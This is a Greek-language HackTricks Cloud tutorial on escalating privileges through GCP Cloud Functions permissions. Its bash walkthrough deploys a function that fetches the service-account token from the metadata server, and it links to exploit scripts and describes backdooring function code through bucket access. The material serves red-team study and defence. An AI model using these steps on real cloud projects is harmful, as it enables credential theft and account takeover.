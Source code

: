 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Περισσότερες πληροφορίες σχετικά με τις Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **δημιουργήσει μια νέα Cloud Function με αυθαίρετο (κακόβουλο) κώδικα και να της αναθέσει έναν Service Account**. Στη συνέχεια, να διαρρεύσει το token του Service Account από τα μεταδεδομένα για να κλιμακώσει τα δικαιώματα σε αυτόν.\
Ορισμένα δικαιώματα για να ενεργοποιηθεί η λειτουργία μπορεί να απαιτούνται.

Τα σενάρια εκμετάλλευσης για αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) και [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) και το προεγκατεστημένο αρχείο .zip μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **τροποποιήσει τον κώδικα μιας Function και ακόμη και να τροποποιήσει τον service account που είναι συνδεδεμένος** με στόχο την εξαγωγή του token.

{% hint style="danger" %}
Για να αναπτύξετε cloud functions θα χρειαστείτε επίσης δικαιώματα actAs πάνω στον προεπιλεγμένο service account υπολογιστή ή πάνω στον service account που χρησιμοποιείται για την κατασκευή της εικόνας.
{% endhint %}

Ορισμένα επιπλέον δικαιώματα όπως η άδεια `.call` για την έκδοση 1 των cloudfunctions ή ο ρόλος `role/run.invoker` για να ενεργοποιήσετε τη λειτουργία μπορεί να απαιτούνται.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Αν λάβετε το σφάλμα `Permission 'run.services.setIamPolicy' denied on resource...` είναι επειδή χρησιμοποιείτε την παράμετρο `--allow-unauthenticated` και δεν έχετε αρκετά δικαιώματα γι' αυτό.
{% endhint %}

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Με αυτή την άδεια μπορείτε να αποκτήσετε μια **υπογεγραμμένη διεύθυνση URL για να μπορέσετε να ανεβάσετε ένα αρχείο σε έναν κάδο λειτουργίας (αλλά ο κώδικας της λειτουργίας δεν θα αλλάξει, πρέπει ακόμα να τον ενημερώσετε)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Δεν είμαι σίγουρος πόσο χρήσιμη είναι μόνο αυτή η άδεια από την οπτική γωνία ενός επιτιθέμενου, αλλά καλό είναι να το γνωρίζουμε.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Δώστε στον εαυτό σας οποιαδήποτε από τα προηγούμενα **`.update`** ή **`.create`** προνόμια για να κλιμακώσετε.

### `cloudfunctions.functions.update`

Έχοντας μόνο **`cloudfunctions`** δικαιώματα, χωρίς **`iam.serviceAccounts.actAs`** δεν **θα μπορείτε να ενημερώσετε τη λειτουργία, ΟΠΟΤΕ ΑΥΤΟ ΔΕΝ ΕΙΝΑΙ ΜΙΑ ΕΓΚΥΡΗ ΚΛΙΜΑΚΩΣΗ.**

### Πρόσβαση Ανάγνωσης & Εγγραφής πάνω στον κάδο

Αν έχετε πρόσβαση ανάγνωσης και εγγραφής πάνω στον κάδο, μπορείτε να παρακολουθείτε τις αλλαγές στον κώδικα και όποτε συμβαίνει μια **ενημέρωση στον κάδο, μπορείτε να ενημερώσετε τον νέο κώδικα με τον δικό σας κώδικα** ώστε η νέα έκδοση της Cloud Function να εκτελείται με τον υποβληθέντα κώδικα με backdoor.

Μπορείτε να ελέγξετε περισσότερα σχετικά με την επίθεση στο:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ωστόσο, δεν μπορείτε να το χρησιμοποιήσετε για να προ-συμβιβάσετε τρίτες Cloud Functions, επειδή αν δημιουργήσετε τον κάδο στον λογαριασμό σας και του δώσετε δημόσιες άδειες ώστε το εξωτερικό έργο να μπορεί να γράψει πάνω του, θα λάβετε το εξής σφάλμα:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ωστόσο, αυτό θα μπορούσε να χρησιμοποιηθεί για επιθέσεις DoS.
{% endhint %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
